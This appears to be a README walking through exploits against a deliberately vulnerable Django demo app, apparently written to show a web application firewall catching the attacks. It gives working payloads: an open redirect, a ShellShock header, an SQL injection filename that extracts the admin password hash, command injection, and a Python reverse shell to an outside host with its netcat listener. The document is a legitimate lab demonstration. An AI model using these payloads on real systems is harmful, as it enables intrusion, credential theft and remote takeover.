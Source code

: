 # Instructions for exploiting vulnerabilities in the djangonv app

## App Protect Policy

Before beginning, some adjustments need to be made to the App Protect policy in order to allow some of the (poorly written) code to run:


/taskManager/register triggers the SQL Injection Syntax Error algorithm.  It's best to disable it for this app.

/taskManager/login/, /taskManager/logout and others triggers Redirect Protection.  Need to alter policy to allow http://127.0.0.1:8000/*


## Exploits

### Open Redirect Vulnerability

The /taskManager/logout endpoint is susceptible to an open redirect.
Threat actors can leverage these types of vulnerabilities to redirect the user's browser to a URL of their choice.  
The typical exploit vector is via a malicious embedded link in an email.

Demonstrate the vulnerability by pasting the following into the browser's URL space:
```
http://127.0.0.1:8000/taskManager/logout?redirect=http://www.yahoo.com
```

### Malicious Payload (Intrusion Prevention)
Open a terminal window and paste in the following (ShellShock) exploit:
```
curl -H "User-Agent: () { :; }; /bin/eject" http://127.0.0.1:8000
```
Note: The application doesn't actually suffer from the ShellShock vulnerability.  But, App Protect's Malicious Payload algorithms will pick up on the attempts.
### Remote Command Execution

To trigger a Remote Command Execution (that's actually both a RCE and SQLi..), do this:

1. Go to http://127.0.0.1:8000/ and click "Login"

2. Login to the application
```
user / user123
```
3. Click the link for the "demo project".

4. Click the "Add files" link.  

5. Pick any file from your local computer, and use the following payload for the filename:
```
'||(SELECT password FROM auth_user WHERE username='admin')||'
```
Once this exploit has succeeded, you should see the file in the project file list. The filename contains the MD5 hash of the password of the admin user (after the "md5$"). You should be able to crack this password using JTR or rainbow tables or other.

### OS Command Injection:

In the same place as in for the attack above ("My Projects" --> project you created, add files).
Also pick any file from your local computer, but for the payload use:

An innocent sleep statement (to demonstrate that we can run any command):
```
some_file_name; sleep 1m
```
You'll notice that (without App Protect), the browser will "sleep" for 1 minute.


python reverse shell:
```
some_file_name; python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.64.1",8001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

Note:  You'll need to set up a listener on an external host in order for this reverse shell to actually connect.  In this case the host is at 192.168.64.1 and is listening on port 8001.

For example:
```
nc -nvlp 8001
```


